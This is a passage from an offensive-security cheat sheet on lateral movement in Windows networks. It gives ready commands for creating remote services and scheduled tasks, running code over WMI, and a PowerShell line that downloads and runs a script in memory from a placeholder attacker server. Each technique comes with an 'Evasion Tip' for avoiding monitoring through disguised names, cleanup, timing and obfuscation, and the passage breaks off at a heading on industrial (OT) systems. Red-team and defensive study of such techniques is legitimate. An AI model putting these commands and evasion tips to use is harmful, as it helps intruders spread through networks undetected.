## 5. Remote Service Creation

These techniques involve creating or modifying services on remote systems.

- **Windows Service Creation**:
  - **Tools**: `sc.exe`, PowerShell `New-Service`
  - **Example (Create Remote Service)**:
    ```cmd
    sc \\<target> create TestService binPath= "cmd.exe /c command"
    sc \\<target> start TestService
    ```
  - **Evasion Tip**: Service creation is highly monitored. Use legitimate service names and descriptions. Clean up afterward.

- **Scheduled Task Creation**:
  - **Tools**: `schtasks.exe`, PowerShell `Register-ScheduledTask`
  - **Example (Create Remote Scheduled Task)**:
    ```cmd
    schtasks /create /tn "SystemCheck" /tr "cmd.exe /c command" /sc once /st 23:00 /s <target> /u <username> /p <password>
    ```
  - **Evasion Tip**: Use task names that blend with legitimate system tasks. Schedule during expected maintenance windows.

## 6. Fileless Lateral Movement

These techniques avoid writing files to disk on the target system.

- **PowerShell Remoting with In-Memory Execution**:
  - **Tools**: PowerShell `Invoke-Command`
  - **Example (Remote In-Memory Execution)**:
    ```powershell
    Invoke-Command -ComputerName <target> -Credential $cred -ScriptBlock {
        IEX (New-Object Net.WebClient).DownloadString('http://<your_server>/script.ps1')
    }
    ```
  - **Evasion Tip**: PowerShell remoting may be monitored but is a legitimate administrative channel. Use obfuscation techniques from the [Command Obfuscation Cheatsheet](Command-Obfuscation-Cheatsheet.md).

- **WMI for Execution**:
  - **Tools**: `wmic`, PowerShell `Invoke-WmiMethod`
  - **Example (WMI Process Creation)**:
    ```powershell
    Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c command" -ComputerName <target> -Credential $cred
    ```
  - **Evasion Tip**: WMI is heavily monitored but commonly used for legitimate administration. Use during business hours and limit frequency.

## 7. OT-Specific Lateral Movement
